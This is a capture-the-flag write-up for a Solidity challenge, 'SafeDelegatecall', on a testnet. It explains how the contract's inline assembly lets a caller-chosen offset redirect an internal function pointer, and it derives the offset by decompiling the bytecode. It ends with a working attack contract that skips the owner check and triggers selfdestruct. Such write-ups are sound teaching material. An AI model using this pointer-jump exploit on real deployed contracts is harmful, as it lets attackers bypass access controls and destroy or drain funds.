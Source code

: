 # delegatecall(SafaDelegatecall)

## contract

```solidity
pragma solidity ^0.4.23;

contract SafeDelegatecall {

    address private owner;
    bytes4 internal constant SET = bytes4(keccak256('fifth(uint256)'));
    event SendFlag(address addr);
    uint randomNumber = 0;

    struct Func {
        function() internal f;
    }

    constructor() public payable {
        owner = msg.sender;
    }

    modifier onlyOwner {
        require(msg.sender == owner);
        _;
    }

    function execute(address _target) public payable{
        require(_target.delegatecall(abi.encodeWithSelector(this.execute.selector)) == false, 'unsafe execution');

        bytes4 sel;
        uint val;

        (sel, val) = getRet();
        require(sel == SET);

        Func memory func;
        func.f = gift;
        assembly {
            mstore(func, sub(mload(func), val))
        }
        func.f();
    }

    function gift() private {
        payforflag();
    }

    function getRet() internal pure returns (bytes4 sel, uint val) {
        assembly {
            if iszero(eq(returndatasize, 0x24)) { revert(0, 0) }
            let ptr := mload(0x40)
            returndatacopy(ptr, 0, 0x24)
            sel := and(mload(ptr), 0xffffffff00000000000000000000000000000000000000000000000000000000)
            val := mload(add(0x04, ptr))
        }
    }

    function payforflag() public payable onlyOwner {
        require(msg.value == 1, 'I only need a little money!');
        emit SendFlag(msg.sender);
        selfdestruct(msg.sender);
    }

    function() payable public{}
}
```

## analyses

### code

Our goal is to trigger the event `SendFlag()`, but only owner could call it and no code can set owner. Let's look at `execute()`, maybe it can do something.

```solidity
    function execute(address _target) public payable{
        require(_target.delegatecall(abi.encodeWithSelector(this.execute.selector)) == false, 'unsafe execution');

        bytes4 sel;
        uint val;

        (sel, val) = getRet();
        require(sel == SET);

        Func memory func;
        func.f = gift;
        assembly {
            mstore(func, sub(mload(func), val))
        }
        func.f();
    }
```

this is `execute()` logic: 

(1) call _tartget's `execute()`, and it should be execute wrong and return false

(2) `getRet()` should return 2 values, one is `bytes4(keccak256('fifth(uint256)'))` and the other one "val" is anything u like. But "val" should be a specific value or you can not complete this level.

(3) `func.f = gift` and `func.f()`: it will call `gift()`

```solidity
    function gift() private {
        payforflag();
    }
```

(4) assembly

- `mload(func)`: get the address of `func` in memory ==> get the address of `gift` in memory, because the `struct`'s feature. If you know the EVM storage of `struct` you can understand it.
- `sub(mload(func), val)`: address(gift) - val, and the val is decided by us. So we can create a *target* contract, and the program execution flow can go anywhere.

- `mstore(func, sub(mload(func), val))`: place `sub(mload(func), val)` in the 32 bytes after address `func`. This means that if we call `func.f()`, it would jump to the address `func` and execute the code after the address `func`. We want to jump to `emit SendFlag(msg.sender);`, we need to find its address and then we can jump to this code directly without passing the `require()` and `onlyOwner`

```solidity
    function payforflag() public payable onlyOwner {
        require(msg.value == 1, 'I only need a little money!');
        emit SendFlag(msg.sender);
        selfdestruct(msg.sender);
    }
```

So we should find the "val". And we should analyses `getRet()`:

```solidity
    function getRet() internal pure returns (bytes4 sel, uint val) {
        assembly {
            if iszero(eq(returndatasize, 0x24)) { //0x24=36
                revert(0, 0) 
            }
            let ptr := mload(0x40) //0x40=64
            returndatacopy(ptr, 0, 0x24)
            sel := and(mload(ptr), 0xffffffff00000000000000000000000000000000000000000000000000000000)
            val := mload(add(0x04, ptr))
        }
    }
```

- `returndatasize`: size of the last returndata, in our level it is the value that delegatecall returns
- `eq(returndatasize, 0x24)`: if `returndatasize` is 0x24 bytes?
- `iszero(eq(returndatasize, 0x24))`: 0x24 bytes==>true==>1==> not revert(), or it will revert()
- `let ptr := mload(0x40)`: get the free memory pointer
- `returndatacopy(ptr, 0, 0x24)`: copy s bytes from returndata at position f to mem at position t. In our level, it is put the value that delegatecall returned in the address of ptr(0x40).
- `mload(ptr)`: get 32 bytes after address ptr
- `sel := and(mload(ptr), 0xffffffff00000000000000000000000000000000000000000000000000000000)`: get the first 4 bytes ==> `bytes4(keccak256('fifth(uint256)'))`
- `add(0x04, ptr)`： pass 4bytes==>pass address(sel)
- `val := mload(add(0x04, ptr))`: get the following 32 bytes==>val, anything we can decide

### search for the "val"

address(emit ...) = address(gift) - val, equal to val = address(gift) - address(emit ...), We need to decompile the contract to find the address.

The title address is in goerli: `0x43E9663D23bBafc76630f7c933A028dE85892E40`, and I decompile it in this [site](https://ethervm.io/decompile/goerli/0x43e9663d23bbafc76630f7c933a028de85892e40).

To find `emit SendFlag(msg.sender);`, we can search for opcode`SELFDESTRUCT`.

![](https://moe.photo/images/2023/05/23/image-20230523144355736.png)

From this picture, we can infer it contains `emit SendFlag(msg.sender)` because of `LOG1` but not contains `require()` because of no `*REVERT`, so address `03C1` is the `address(emit ...)`

Also, you can find `emit SendFlag(msg.sender)` throught `require(msg.value == 1,'I only need a little money!')` since it only appears once in the contract. From this picture, it approves `03c1` is right. Jump to `emit SendFlag(msg.sender)` that makes us escape from the `require()` check.

![](https://moe.photo/images/2023/05/25/image-20230525105908586.png)

To find `address(gift)`,  we can search with `*REVERT` and opcode `MSTORE`. And now we know `048a` is `address(gift)`

![](https://moe.photo/images/2023/05/23/image-20230523145423870.png)



**Now we know that: val = address(gift) - address(emit ...) = 048A - 03C1 = 1162 - 961 = 201 = C9**

This is a picture created by me, I hope it is helpful for you to understand this level:

![](https://moe.photo/images/2023/05/23/image-20230523153157158.png)

## solve

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract SafeDelegatecallAttack {
    bytes4 internal constant SEL = bytes4(keccak256('fifth(uint256)'));

    fallback() external {
        bytes4 sel = SEL;
        assembly {
            mstore(0, sel)
            mstore(4, 0xC9)
            revert(0, 0x24)
        }
    }// 048A - 03C1 = 1162 - 961 = 201 = C9
}
```

From this level, I know that if we have inline assembly, we can jump to anywhere we like even pass important check! 

Let's solve it!

![](https://moe.photo/images/2023/05/23/image-20230523155021249.png)

![](https://moe.photo/images/2023/05/23/image-20230523155030533.png)

![](https://moe.photo/images/2023/05/23/image-20230523155037589.png)

destruct contract successfully

![](https://moe.photo/images/2023/05/23/image-20230523155106491.png)

trigger successfully :)



































